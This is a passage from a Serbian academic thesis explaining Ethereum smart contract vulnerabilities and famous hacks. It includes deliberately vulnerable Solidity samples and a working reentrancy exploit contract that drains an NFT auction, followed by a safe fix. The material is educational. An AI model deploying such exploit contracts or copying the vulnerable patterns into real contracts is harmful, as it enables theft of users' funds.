Remiks IDE (eng. \textit{Remix IDE}) je integrisano razvojno okruženje koje se koristi za razvoj pametnih ugovora u Soliditi programskom jaziku i dostpuno je kao veb i desktop aplikacija. Autor je koristio Remiks kao glavno okruženje za razvoj svih primera u ovom radu zbog lakoće upotrebe i jednostavnosti interakcije sa pametnim ugovorima koje pruža ovo okruženje. Za pokretanje primera pametnih ugovora i napada na njih, dovoljno je otići na zvaničnu stranicu \textit{remix.ethereum.org} i importovati Soliditi fajlove koji su priloženi uz ovaj rad, verzija Soliditi prevodioca će biti automatski prepoznata i pritiskom na dugme \verb|compile| izvršiće se prevođenje koda za pametni ugovor koji je prikazan u razvojnom okruženju. Zatim u tabu za objavljivanje se može odabrati okruženje, ugovor koji vrši objavljivanje, gas i eteri za taj pametni ugovor, podrazumevano je gas postavljen tako da se može svaki jednostavniji ugovor objaviti, a za većinu pametnih ugovor korisnik ne želi da pošalje sredstva prilikom kreiranja. Nakon objavljivanja pametnog ugovora klikom na dugme \verb|deploy|, u istom tabu će biti dostupan grafički interfejs za postavljanje parametara i pozivanje svih funkcija objavljenog pametnog ugovora. 

Remiks podržava više različitih okruženja, najjednostavnije za korišćenje je Javaskript virtuelna mašina koja simulira Eterium čvor u brauzeru i pruža sve najbitnije funkcionalnosti, međutim ugovori objavljeni na toj virtuelnoj mašini se izgube nakon ponovnog učitavanja aplikacije. Pored virtuelne mašine koja se izvršava u brauzeru, programer može u Remiksu da navede krajnju tačku (eng. \textit{endpoint}) ka simulaciji Eterijum mreže koja se izvršava na lokalnom računaru kao što je Ganaš (eng. \textit{Ganche}), program koji simulira Eterium. Kada se dostigne određeni nivo spremnosti pametnog ugovora, potrebno je testirati pametne ugovore van lokalnog okruženja i dati pristup većem broju ljudi da interaguju sa ugovorom, a to se može postići objavljivanjem pametnog ugovora na testnet mreži. Testnet predstavlja identično okruženje kao i sam Eterium, sa razlikom u tome što se ne koriste sredstva koja imaju vrednost, već neograničen broj test tokena koji su svima besplatno dostupni. Najpoznatije Eterium testnet mreže su Rinkbi, Ropsten, Kovan i Goerli, a iz Remiks okruženja je moguće povezati se na njih korišćenjem javnih krajnjih tački za poziv udaljenih procedura (eng. \textit{public RPC endpoint}).

Za razvoj kompleksnijih pametnih ugovora koji međusobno komuniciraju, preporuka je da se koristi jedno od poznatih Eterium razvojnih okruženja Hardhet (eng. \textit{Hardhat}) ili Trafl (eng. \textit{Truffle}), ova okruženja nemaju grafički interfejs i mogu se koristiti u okviru editora po izboru, ali zato nude skup pomoćnih alata za simuliranje blokčejna, testiranje, debagovanje i automatizaciju objavljivanja pametnih ugovora. Tenderli (eng. \textit{Tenderly}) je još jedan koristan alat za razvoj pametnih ugovora. On pruža programerima mogućnost da simuliraju i debaguju pametne ugovore, a onda kad ih objave da prate i dobijaju obaveštenja za transakcije i događaje na pametnim ugovorima u realnom vremenu.

\chapter{Propusti u pametnim ugovorima}

Postoji nekoliko razloga zašto se propusti javljaju u pametnim ugovorima, a za njihovo sprečavanje neophodno je i razumevanje kako oni nastaju, stoga će autor u ovoj sekciji pokušati da objasni i klasifikuje najpoznatije propuste u pametnim ugovorima. Za klasifikaciju propusta u pametnim ugovorima koristiće se klasifikacija po klasama koju su predložili Acei (it. \textit{Atzei}), Bartoleti (it. \textit{Bartoletti}) i Ćimoli (it. \textit{Cimoli}) u svom radu pod nazivom "Istraživanje napada na Eterium pametne ugovore"\cite{atzei}. Propusti u pametnim ugovorima se svrstavaju u tri klase prema tome na kom nivou se pojavljuju:
\begin{enumerate}
    \item Soliditi nivo
    \item EVM nivo
    \item Blokčejn nivo
\end{enumerate}

U nastavku ovog poglavlja ćemo prikazati najznačajnije propuste iz tri prethodno navedene klase, a u sledećem poglavlju ćemo pokazati kako se eksploatišu propusti na Soliditi nivou jer se oni najlakše eksploatišu i imaju najveći uticaj. Većina propusta koji će biti prikazani mogu da budu eksploatisani tako da se ukrade novac iz pametnih ugovora.

\section{Soliditi propusti}

\subsection{Ponovni ulazak u funkciju}

Jedna od karakteristika pametnih ugovora na Eteriumu jeste mogućnost slanja neke valute korišćenjem funkcija \verb|send|, \verb|transfer| i \verb|call|. Atomičnost i sekvencijalnost transakcija mogu lako navesti programere da pomisle da kada se nerekurzivna funkcija pozove, da se u nju ne može ući opet dok ona ne završi svoje izvršavanje. Međutim, to nije uvek slučaj, u situacijama kada se koriste prethodno navedene funkcije, a destinaciona adresa je pametan ugovor, pozivi funkcija se takođe ponašaju i kao pozivi \verb|fallback| funkcije destinacionog ugovora. \verb|Fallback| funkcija je jedinstvena funkcija u pametnim ugovorima koja se poziva ukoliko nijedna druga funkcija ugovora nema odgovarajući potpis ili ako nije prosleđen nijedan podatak za poziv, a u ugovoru ne postoji \verb|receive| funkcija. \verb|Receive| funkcija je naknadno uvedena u Soliditi kompajleru i njena upotreba da se izvrši svaki put kada pametni ugovor primi sredstva iz neke transakcije, tako da je moguće ovaj propust eksploatisati korišćenjem \verb|receive| ili \verb|fallback| funkcije. Pametan ugovor koji koristi \verb|send|, \verb|transfer| i \verb|call| funkcije može da se dovede u neočekivano stanje kada se očekivani prenos sredstava protumači kao poziv funkcije na destincionoj adresi.

\begin{lstlisting}[caption=Primer funkcije sa propustom ponovnog ulaska, label={lst:withdraw}]
function withdraw(amount) public {
    require(wallets[msg.sender] >= amount);
    msg.sender.call{value:amount}("");
    wallets[msg.sender] -= amount;
}
\end{lstlisting}

U kodu \ref{lst:withdraw} je prikazana funkcija \verb|withdraw| iz ugovora A koja ima propust ponovnog ulaska. Napadač prvo pravi maliciozni pametni ugovor B koji će preneti sredstva u ugovor A, a zatim pozivati ovu funkciju. Nakon prolaska validacije u prvoj liniji funkcije, ugovor A će poslati nazad Etere malicioznom ugovoru. Pošto je destinacija transfera tokena pametni ugovor, izvršiće se \verb|fallback| funkcija, koja u malicioznom ugovoru ponovo poziva funkciju \verb|withdraw| ugovora A. Ponovnim ulaskom u funkciju \verb|withdraw|, pametni ugovor A još uvek nije umanjio balans napadačkog ugovora B u svom nizu \verb|wallets|, pa će opet poslati Etere malicioznom ugovoru B. Petlja iscrpljivanja novca se nastavlja sve dok ugovor A ne ostane bez Etera ili se potroši sav gas. U zavisnosti od implementacije napada, rekurzivno pozivanje funkcije \verb|withdraw| se može zaustaviti tako što napadač proveri da li je iscrpeo sva sredstva i sam zaustavi napad ili poslednji transfer ne uspe da se izvrši usled nedostatka gasa ili sredstava pa onda napadač uhvati tu grešku u svom ugovoru, ali u oba slučaja svi prethodno uspešni pozivi funkcije \verb|withdraw| će se izvršiti do kraja i balans ugovora B koji se čuva u nizu \verb|wallets| će biti umanjen onoliko puta koliko je puta pozvana funkcija, tj. balans će otići u minus. Na primer, ukoliko je napadač pokušao da povuče 1 Eter iz ugovora A, a sam ugovor A poseduje ukupno 5 Etera, napadač nakon ovog napada će imati 5 Etera u svom napadačkom ugovoru B, a interna promenljiva \verb|wallets[addressOfSmartContractB]| će imati vrednost -4.

\begin{figure}[htb]
\centering

\includegraphics[width=\textwidth]{reentrancy.png}
\caption{\emph{Eksploatacija ponovnog ulaska}}
\label{fig:reentrancy}
\end{figure}

Vremenski okvir u kom se ceo napad izvršava je veoma kratak, zato što će svi transferi novca biti pod jednom transakcijom. U okviru te transakcije se nalazi inicijalni poziv funkcije koja pokreće promenu stanja pametnog ugovora i Eterium adresa koje su povezane sa pozivom, tako da jedna transakcija nije samo transfer novca sa jedne adrese na drugu kao što smo navikli u tradicionalnim sistemima, već jedna transakcija uz pomoć pametnih ugovora može da izazove promenu balansa na više od dve adrese. Napad na propust ponovnog ulaska se smatra jednim od najefektivnijih napada zato što napadač može biti u mogućnosti da u potpunosti ukrade sredstva iz ugovora, a kako se zaštititi od ovakvog napada će biti prikazano u poglavlju o eksploataciji i poglavlju o sigurnom razvoju pametnih ugovora.

Poznati primer eksploatacije ovog propusta je hakovanje decentralizovane autonomne organizacije (eng. \textit{DAO Hack}), jedan od najpoznatijih napada na Eteriumu koji je doveo do gubitka Etera u vrednosti od 60 miliona dolara iz ugovora koji je sadržao 150 miliona dolara \cite{atzei}. Ovaj napad se desio u ranoj fazi Eteriuma što je uticalo da dođe do račvanja Eterium blokčejna kako bi se poništio rezultat ovog napada. Blokovi koji su sadržali transakcije kojima je ukraden novac su poništeni, međutim to nije naišlo na odobravanje cele mreže zato što takav tip račvanja se kosi sa principom nepromenljivosti blokčejna i određeni deo majnera je odlučio da nastavi nadogradnju prvobitnog lanca, danas je taj bločkejn poznat pod nazivom Eterium Klasik (eng. \textit{Ethereum Classic})\cite{daohack}.

\subsection{Prekoračenje i potkoračenje celobrojnih vrednosti}

EVM definiše samo tipove podataka fiksne veličine, što znači da celobrojna promenljiva može da se predstavi samo u određenom opsegu brojeva. Prekoračenja broja (eng. \textit{integer overflow}) se javlja ukoliko se neki broj inkrementira preko svoje maksimalne vrednosti, i u tom slučaju se dobija njegova najmanja vrednost, dok do potkoračenja broja (eng. \textit{integer underflow}) dolazi ako se najmanja vrednost broja dekrementira, i u tom slučaju se dobija njegova najveća vrednost. Ovo je vrlo čest propust u mnogim programskim jezicima, ali u slučaju Eteriuma može imati mnogo ozbiljnije posledice ukoliko se takva promenljiva koristi za funkcije koje rade sa novcem.

\begin{lstlisting}[caption=Primer prekoračenja, label={lst:overflow}]
uint8 num_of_loans = 255;
num_of_loans += 1;
\end{lstlisting}

Na veoma jednostavnom primeru 3.2, incijalizuje se 8-bitna celobrojna promenljiva koja može da sadrži brojeve u opsegu od 0 do 255. Ukoliko ova promenljiva sadrži broj 255 i kada se inkrementira, dobija se broj 256 koji se binarno predstavlja kao 100000000 i ukoliko se sačuva na 8-bitno polje, nova vrednost naše promenljive će biti 0. Sličan princip se primenjuje i za potkoračenje.

% Na primer, ako se vrednost brojača petlje prekorači, može se dovesti to kreiranja beskonačne petlje koja može da zamrzne sva sredstva u ugovoru. To se može izvršiti ukoliko napadač ima način da poveća vrednost brojača petlje, npr registoravnjem dovoljno korisnika da se dođe do overflow-a. 

Vrlo lako je eksploatisati ove propuste i javljaju se u transakcijama koje sadrže nevalidirane ulazne podatke. Potkoračenje je propust koji se može lakše eksploatisati nego prekoračenje, zato što je često jako skupo postići stanje u kom neki broj dostigne vrednost veću od maksimalne vrednosti broja zato što je podrazumevana veličina broja u EVM-u 256 bitova. Kako se zaštiti od ovog napada biće objašnjeno u sekciji \ref{hiperinflacija}, a pored toga će biti prikazan primer pametnog ugovor sa ovim propustom i kako se on eksploatiše.

Jedan od najpoznatijih primera ovog propusta jeste u \verb|batchTransfer| funkciji koja je bila implementirana u nekoliko ERC20 tokena. Sličan primer i način eksploatacije biće objašnjen u narednom poglavlju. Drugi poznati primer je Ponzi šema PoWH (eng. \textit{Proof of Weak Hands}) koja je izgubila 866 Etera zbog ovog tipa propusta u svom kodu \cite{powh}.

\subsection{Loša upotreba biblioteka i poziva delegatecall}

Programeri pametnih ugovora koriste \verb|call| i \verb|delegatecall| kako bi povećali modularizaciju njihovog koda. Obe funkcije imaju istu funkcionalnost, izvršavaju kod nekog drugog ugovora, a razlikuju se u tome nad kojim kontekstom se izvršavaju. \verb|Call| se izvršava nad kontekstom eksternog ugovora, dok se \verb|delegatecall| izvršava nad kontekstom pozivajućeg ugovora uz očuvanje vrednosti u \verb|msg.sender| i \verb|msg.value| promenljivama. Ovi pozivi omogućavaju implementaciju biblioteka koje olakšavaju programerima da izdvoje kod koji će se više puta koristiti u budućim ugovorima.

Pisanje biblioteka za pametne ugovore nije nimalo lak posao, zato što se od programera zahteva da vodi računa o kontekstu i stanju pozivajućeg pametnog ugovora kao i o kontekstu i stanju same biblioteke. Promene stanja izazvane od strane biblioteka su često ulazna vrata za dalje razvijanje napada na pametan ugovor i zbog toga je preporučljivo da se pišu biblioteke bez stanja (eng. \textit{state-less libraries}) kad god je to moguće.

Napadač bi pokušao detaljnom analizom biblioteke i pametnog ugovora da uoči način za izazivanje neočekivanih promena stanja, i zatim to da izazove preko \verb|delegatecall| poziva ka ciljanom pametnom ugovoru ili direktnim pozivom neke funkcije biblioteke, pošto je i ona pametan ugovor. U primeru 4.5 Nagradna igra, biće prikazan pojednostavljen primer loše implementacije biblioteke koja se poziva korišćenjem \verb|delegatecall| i način kako se to može eksploatisati tako da napadač promeni biblioteku koristeći \verb|delegatecall| poziv napadnutog ugovora.

Posledice iskorišćavanja ovog propusta su raznolike, od malih beznačajnih promena do gubljenja i zamrzavanja sredstava pametnog ugovora. Drugo hakovanje Periti (eng. \textit{Parity}) novčanika je dobar primer kako dobro napisana biblioteka, ukoliko se ne inicijalizuje dobro i neko iskoristi taj propust da uništi biblioteku, može da pokvari sve pametne ugovore koji se oslanjaju na nju. Prilikom ovog hakovanja zamrznuto je 300 miliona dolara \cite{second_parity}.

\subsection{Neočekivano primanje Etera}

Obično kada se Eter pošalje nekom pametnom ugovoru, onda se izvrši neka predefinisana funkcija ili \verb|fallback| funkcija. Postoje dva izuzetka od ovoga kada ugovor može da primi Eter bez izvršavanja nekog koda, a pametni ugovori koji imaju bitnu poslovnu logiku za koju je neophodno da se izvrši prilikom svakog dolazećeg transfera, mogu da budu značajno ugroženi u tim situacijama.

\subsubsection{Samouništenje ugovora}
Ugovori napisani za Eterium imaju mogućnost da se samounište pozivanjem \verb|selfdestruct| operacije. Ova operacija uklanja bajtkod sa adrese asociranom sa ugovorom i šalje sav preostali Eter ugovora na adresu specificiranu kao parametar poziva operacije. Napadač koji želi da ugovor A dovede u neočekivano stanje tako što će poslati Eter na adresu pametnog ugovora A, to može postići tako što će napraviti maliciozni ugovor B koji ima jedini cilj da se samouništi pozivom \verb|selfdestruct(addressScA)| i pošalje sav svoj balans ugovoru A.

\subsubsection{Unapred poslat Eter}
Adresa pametnog ugovora se deterministički određuje preko \verb|SHA3| heša adrese kreatora ugovora i nonsa (eng. \textit{nonce}) transakcije koja kreira ugovor:

\begin{lstlisting}[caption=Formiranje adrese pametnog ugovora, label={lst:sha3}]
address = sha3(rlp.encode([account_address,transaction_nonce]))
\end{lstlisting}

Ovo omogućava napadaču da pošalje Etere na adresu ugovora i pre nego što je sam ugovor napravljen i na taj način naruši funkcionisanje pametnog ugovora od početka\cite{sigmaprime}. Unapred poslati Eteri mogu na primer da naruše funkciju inicijalizacije koja je bila zamišljena da bude pozvana nakon konstruktora, ali njena ispravnost će se narušiti ukoliko se oslanja na pretpostavku da ugovor nema nikakva sredstva i na nekoj jednostavnoj proveri neće moći da se nastavi izvršavanje kada se utvrdi da ugovor već poseduje određena sredstva.

Zaštita od unapred poslatih Etera i slanje korišćenjem samouništenja, postiže se korišćenjem promenljive stanja za praćenje balansa ugovora i tu promenljivu je moguće menjati samo iz funkcija pametnog ugovora, a pored toga važno je razvijati funkcije pametnog ugovora tako da višak sredstava ne može da poremeti njihovo funkcionisanje.

\subsection{Uskraćivanje usluge}

Napad uskraćivanja usluge (eng. \textit{Denial of Service}) je vrlo poznat u računarstvu i odnosi se na svaki pokušaj da se računar ili servis učini nedostupnim korisnicima na neko vreme. U Eterium mreži ovaj napad se može proširiti tako da uskraćivanje usluge ne bude privremeno, već da se neke usluge pametnog ugovora zauvek zablokiraju, a to se najčešće postiže tako što se pametan ugovor dovede u neko nepredviđeno stanje.

Do uskraćivanja usluge može doći ukoliko se:
\begin{enumerate}
    \item Izvršava eksterni poziv bez dovoljne količine gasa i u ovom slučaju EVM baca izuzetak \verb|OutOfGas|  koji poništava sve promene stanja koje su izazvane ovom transakcijom, vraća sredstva koja su trebala da se prenesu između naloga, ali zadržava sav gas koji je potrošen za pokušaj ovog izvršvanja.
    \item Iterira kroz niz ili mapiranje koje se može eksterno manipulisati. Napadač može taj niz da poveća toliko da iteracija za taj niz košta više od maksimalne količine gasa za jedan blok koja je 30 miliona jedinica.
    \item Izgubi vlasništvo nad ugovorom (vlasnik ugovora izgubi svoj privatni ključ).
    \item Vrši promena stanja zasnovana na eksternim pozivima.
\end{enumerate}

Dobar primer ovog propust koji će biti predstavljen u nastavku rada, je slučaj sa igricom Tron kralja Etera (eng. \textit{King of Ether Tron}), čiji se ugovor oslanjao na eksterne pozive. Takođe, ovaj propust može dovesti i do toga da novčana stredstva zauvek ostanu zaključana u pametnom ugovoru, kao što je to bio slučaj sa drugim hakovanjem Periti (eng. \textit{Parity}) novčanika\cite{second_parity, sigmaprime}.

\subsection{Podrazumevana vidljivost}

Programeri pametnih ugovora, koji nisu dovoljno upoznati sa Soliditi jezikom i načinom funkcionisanja Eteriuma, često imaju pogrešno razumevanje modifkatora vidljivosti ili zaboravljaju da su sve promenljive i funkcije podrazumevano javne. Soliditi podržava 4 modifikatora za vidiljivost: \verb|public|, \verb|private|, \verb|external| i \verb|internal|, a važno je znati da \verb|private| i \verb|internal| samo sprečavaju funkcije drugih ugovora da čitaju promenljive i pozivaju funkcije tog ugovora, sve informacije koje su pod ovim modifikatorima će svakako biti vidljive na blokčejnu \cite{visibility_modificators}.

\begin{lstlisting}[caption=Ugovor sa funkcijama koje imaju podrazumevanu vidljivost, label={lst:guess}]
contract GuessAddress {
    function gainAward() {
        require(uint32(msg.sender) == 0);
        _sendEther();
    }
    function _sendEther() {
        msg.sender.transfer(this.balance);
    }
}
\end{lstlisting}
Na primeru \ref{lst:guess} imamo pametan ugovor koji implementira nagradnu igru koja poklanja Eter onim nalozima čija adresa ima nule na poslednjih 8 heks karaktera. Kada su uslovi ispunjeni, funkcija \verb|gainAward()| se može pozvati kako bi se preuzela nagrada. Pošto za funkciju \verb|_sendEther()| nisu iskorišćeni modifikatori \verb|private| i \verb|internal|, moguće je pozvati ovu funkciju izvan pametnog ugovora i na taj način preuzeti Etere iz ugovora \cite{sc_attack_protections}.

Najpoznatiji slučaj ovog propusta jeste prvo hakovanje Periti (eng. \textit{Parity}) novčanika, kada je ukraden Eter u vrednosti od 31 milion dolara. Periti novčanik koji podržava više potpisa (eng. \textit{multisig wallet}) je imao funkciju \verb|initWallet()| koja postavlja vlasnike ugovora, greškom je vidljivost te funkcije ostavljena da bude podrazumevana, tj. javna i napadač je to iskoristio da je ponovo pozove i postavi sebe za vlasnika tri najveća novčanika. Ostalo je 150 miliona dolara u preostalim novčanicima, ali je grupa dobronamernih hakera (eng. \textit{white-hat hackers}) preduhitrila napadača i ukrala te pare pre njega kako bi mogla da ih potom vratila pravim vlasnicima \cite{first_parity}.

\section{EVM propusti}

\subsection{Zaključani i izgubljeni Eter}

Adresni prostor na Eterium mreži je jako veliki, koristi se 160 bita za predstavljanje adrese, a većina tih adresa nije uopšte u upotrebi od strane korisnika ili pametnih ugovora i imaju naziv \textit{orphan} adrese. EVM nema mogućnost da proveri da li je neka adresa \textit{orphan} pa se zato dešava da se veliki broj tokena i Etera slučajno izgubi zato što se pošalju na adresu koja nije u upotrebi. Ukoliko se to radi sa namerom, onda se to naziva spaljivanje (eng. \textit{Burn}) tokena ili Etera.

Pored Etera izgubljenog u transferu, drugi razlog za gubljenje Etera je kada ostane zaključan u nekom ugovoru. Iako postoji mnogo razloga zašto Eter može ostati zaključan u ugovoru, mi ćemo istaknuti kao najbitniji slučaj kada se pametni ugovor oslanja na eksterni ugovor koji više ne postoji, ovo slučaj koji je do sada imao najveći finansijski uticaj na Eterium \cite{parity_distributed}. Ovo se najčešće dešava kada pametan ugovor koristi neku eksternu biblioteku da izvrši neke operacije nad njegovim stanjem.

Vrlo je lako usled malo nepažnje da se izgube sredstva, a izgubljeni ili zaključani Eteri ne mogu više nikad se povrate pa je jako bitno da se pametni ugovori dizajniraju tako da ne sadrže grešku koja može poslati Etere na pogrešnu adresu. Usled greški u pametnim ugovorima i slanju Etera od strane korisnika, na nultoj adresi (0x00) Eterium mreže se u trenutku pisanja ovog rada nalazi Etera u vrednosti od preko 34 miliona dolara i drugih tokena u vrednosti od 200 miliona dolara \cite{ethnull}. Nisu sva sredstva greškom završila na nultoj adresa, neka su i ciljano spaljivana slanjem na tu adresu. 

\subsection{Granica veličine steka}

Pozivni stek (eng. \textit{call stack}) je struktura podataka asocirana sa svakom transakcijom i služi za čuvanje informacije o aktivnim potprogramima pametnog ugovora. Svaki put kada pametni ugovor pozove funkciju drugog ugovora ili svoju funkciju korišćenjem \verb|this.f()|, dodaje se novi okvir (eng. \textit{frame}) na pozivni stek. Pozivni stek može da ima najviše 1024 okvira, i kada se dostigne ova granica, EVM baca izuzetak.

Sve do oktobra 2016. godine na Eterium mreži je bilo moguće da napadač napuni skoro do vrha pozivni stek u svom pametnom ugovoru, a zatim da sledeći poziv u tom nizu bude ka ciljanom ugovoru da bi unutar njega došlo do prekoračenja granice steka i da bi se bacio izuzetak. Ukoliko izuzetak nije dobro uhvaćen, on može dovesti ciljani ugovor u neplanirano stanje što napadač dalje može iskoristiti za razvijanje svog napada. Nakon račvanja Eterium blokčejna, ovaj propust je saniran tako da pozivaoc može da alocira najviše 63/64 svog gasa koji poseduje, a pošto je granica gasa po bloku ~30 miliona jedinica, iz toga sledi da je najveća dubina steka uvek manja od 1024 \cite{atzei}.

\section{Blokčejn propusti}

\subsection{Nepouzdani generatori pseudoslučajnih brojeva}

Izvršavanje EVM bajtkoda je determinističko i svi majneri koji izvršavaju transakcije će dobiti iste razultate. Prema tome, za simulaciju nedeterminističkih izbora potrebno je dobiti iste pseudoslučajne vrednosti na svim majnerima. Heš bloka ili vremenski žig je čest izbor za inicijalizaciono seme (eng. \textit{seed}) za generator pseudoslučajnih brojeva, zato što svi majneri dele ove vrednosti. Ovo predstavlja siguran način da se generišu nasumični brojevi zato što je sadržaj budućih blokova nepredvidiv, ali je kasnijim istraživanjima dokazano da napadač može da utiče na rezultate generatora pseudoslučajnih brojeva ukoliko poseduje manji deo majnera u mreži \cite{bitrand, blockentropy}.

\subsection{Zavisnost od redosleda transakcija}

Unutar jednog Eterium bloka uključeno je više transakcija, što znači da se stanje nekog ugovora može izmeniti više puta u istom bloku. Propust zavisnosti od redosleda transakcija (eng. \textit{Transaction Ordering Dependency}) pruža mogućnost malicioznim majnerima da izmene redosled transakcija u nekom bloku i na taj način utiču na stanje u koje će se pametni ugovor dovesti.

Na primer ako imamo pametan ugovor koji čuva informaciju da Alisa inicijalno nema nijedan token. Zatim Alisa uzastopno izvrši funkcije \verb|whitdraw(100)| i \verb|deposit(100)|. Prvo izvršavanje prve funkcije će biti neuspešno i Alisa će nakon ove dve funkcije imati 100 tokena u pametnom ugovoru sačuvano. Ako bi redosled ovih transakcija bio drugačiji onda bi se obe uspešno izvršile i Alisa bi ponovo imala 0 tokena. Majneri koji su zaslužni za formiranje blokova mogu da izmene redosled transakcija tako da utiču na stanje i eksploatišu pametan ugovor dovodeći ga u željeno stanje \cite{exploring_vulns}.

\subsection{Zavisnost od vremenskog žiga}

Veliki broj upotreba pametnih ugovora se oslanja na vremenske žigove kako bi: zaključavao novčana sredstva na neko vreme, koristio ih kao izvor entropije ili definisao različite uslovne promene stanje pametnog ugovora. Majneri poseduju mogućnost da promene vremenski žig za malu vrednost i na taj način utiču na izvršavanje pametnog ugovora. U prethodnoj verziji Eterium protokola majneri su mogli da menjaju vremenski žig i do 900 sekundi od prave vrednosti, a trenutno je taj broj smanjen na par sekundi \cite{atzei}. 

GovernMental pametni ugovor je bio još jedna Ponzi šema koja je skupila veliku količinu Etera i ovaj ugovor je mogao da se dovede u različita stanja manipulacijom vremenskog žiga. Ugovor je isplaćivao novac korisniku koji je bio poslednji pridruženi član za više od jednog minuta, na taj način majner koji je ujedno i pridruženi član može da podesi vremenski žig tako da se niko nije nakon njega pridužio duže od jednog minuta \cite{governmental}.

\chapter{Eksploatacija propusta u pametnim ugovorima}

Iako postoji veliki broj propusta u pametnim ugovorima, istraživanje Daniela Pereza (eng. \textit{Daniel Perez}) i Bendžamina Livshitsa (eng. \textit{Benjamin Livshits}) pokazalo je da je moguće eksploatisati svega 2\% pametnih ugovora \cite{exploitable}. Autor ovog rada će u ovom poglavlju predstaviti primere pametnih ugovora sa propustima i načini na koji se mogu ti propusti eksploatisati. %Svi naredni primeri su posebno osmišljeni za potrebe ovog rada.

\section{NFT Aukcija}

Prvi primer pametnog ugovora koji ćemo pokušati da eksploatišemo će biti jedna NFT aukcija. Ovaj ugovor omogućava korisnicima da naprave aukciju kako bi prodali svoj NFT. Informacije o NFT-ju koji se prodaje će biti prosleđene kroz konstruktor pametnog ugovora, a zatim pozivom funkcije \verb|start|, vlasništvo NFT-ja će se preneti na sam ugovor i na taj način je izbegnuta potreba za poverenjem da će vlasnik NFT-ja poslati sam token kada mu neko pošalje novac, već je ugovorom garantovano da će onaj ko pošalje najveću ponudu da dobiti vlasništvo nad tokenom pozivom \verb|end| funkcije od strane prodavca. Svi oni čija ponuda buda nadmašena, mogu da povuku svoj uloženi novac pozivanjem funkcije \verb|withdraw|.

\begin{lstlisting}[caption=Pametni ugovor za NFT aukciju, label={lst:nftauction}]
contract NFTAuction {
	IERC721 public  nft;
    uint public nftId;
	address payable public seller;
    uint public endAt;
    bool public started;
    bool public ended;
	address public highestBidder;
    uint public highestBid;

	mapping (address => uint) public bids;

	constructor(address _nft, uint _nftId, uint _startingBid) {
		nft = IERC721(_nft);
        nftId = _nftId;

        seller = payable(msg.sender);
        highestBid = _startingBid;
	}

    function start() external payable {
        require(!started, "started");
        require(msg.sender == seller, "not seller");

        nft.transferFrom(msg.sender, address(this), nftId);
        started = true;
        endAt = block.timestamp + 7 days;

    }

    function bid() external payable {
        require(started, "not started");
        require(block.timestamp < endAt, "ended");
        require(msg.value > highestBid, "value < highest");

        if (highestBidder != address(0)) {
            bids[highestBidder] += highestBid;
        }

        highestBidder = msg.sender;
        highestBid = msg.value;

    }

    function end() external {
        require(started, "not started");
        require(block.timestamp >= endAt, "not ended");
        require(!ended, "ended");

        ended = true;
        if (highestBidder != address(0)) {
            nft.safeTransferFrom(address(this), highestBidder, nftId);
            seller.transfer(highestBid);
        } else {
            nft.safeTransferFrom(address(this), seller, nftId);
        }

    }

	function withdraw() public {
		    uint bal = bids[msg.sender];
            (bool sent, ) = msg.sender.call{value:bal}("");
            require(sent, "Failed to send ether");
			bids[msg.sender] = 0;
	}
}
\end{lstlisting}

Možemo da zamislimo zatim sledeći scenario Alisa želi da proda NFT i za potrebe prodaje će objaviti na Eterium mrežu prethodno opisani pametni ugovor. Bob će biti prvi ponuđač i on će ponuditi 2 Etera, Dart podiže ulog na 3 Etera, da bi onda Erin njegovu ponudu nadmašila sa 4 Etera. Bob će pokušati da povuče svoj ulog pošto je njegova ponuda nadmašena, ali će primetiti da pametni ugovor nema više sredstava i nije u stanju da mu vrati novac.

\begin{lstlisting}[caption=Pametni ugovor koji eksploatiše propust u NFT aukciji, label={lst:nftexploit}]
contract ExploitNFTAuction {
	NFTAuctionInterface public auctionInterface;

    constructor(NFTAuctionInterface _auctionInterface) payable {
        auctionInterface = NFTAuctionInterface(_auctionInterface);
    }

	function makeBid() public payable {
		auctionInterface.bid{value: msg.value}();
	}

	function exploit() public payable {
        auctionInterface.withdraw();
	}

	fallback() external payable { 
        if(address(auctionInterface).balance >= 1 ether) {
            auctionInterface.withdraw();
	    }
    }
}
\end{lstlisting}

Zlonamerni akter Dart je iskoristio propust ponovnog ulaska, jedan od najozloglašenijih propusta, i dok je povlačio svoj ulog, on je ukrao Etere koji su Bob i Erin uložili. Dart nije koristio korisnički nalog već pametan ugovor kako bi poslao ponudu, a zatim i povukao svoja sredstava iz aukcijskog ugovora. Prilikom povlačenja sredstva, Dartov ugovor je izvršavanje \verb|fallback| funkcije ponovo pozvao \verb|withdraw| funkciju i na taj način eksploatisao propust, a to je mogao da postigne zato što je funkcija prvo slala tokene podnosiocu zahteva pa tek onda promenila njegovo stanje u samom ugovoru.

\begin{lstlisting}[caption=Sigurna implmementacija funkcije za povlačenje sredstava, label={lst:nftsafewithdraw}]
function safeWithdraw() public {
    uint bal = bids[msg.sender];
    bids[msg.sender] = 0;
    (bool sent, ) = msg.sender.call{value:bal}("");
    require(sent, "Failed to send ether");
}
\end{lstlisting}

Ovaj propust je mogao lako da se izbegne ukoliko je korišćen Provera-Efekat-Interakcija šablon (eng. \textit{Checks-Effects-Interactions pattern}) i da je nakon obavljenih provera, prvo ažurirano stanje pametnog ugovora, a onda tek nakon toga započeta interkacija sa drugim ugovorima i novčanicima. Funkcija koje ne sadrži ovaj propust je prikazana u kodu \ref{lst:nftsafewithdraw}. Inspiracija za ovaj primer je bio prethodno pomenuti DAO hak iz koga je na sličan način ukradeno Etera u vrednosti od 60 miliona dolara.

\section{Hiperinflacija}\label{hiperinflacija}

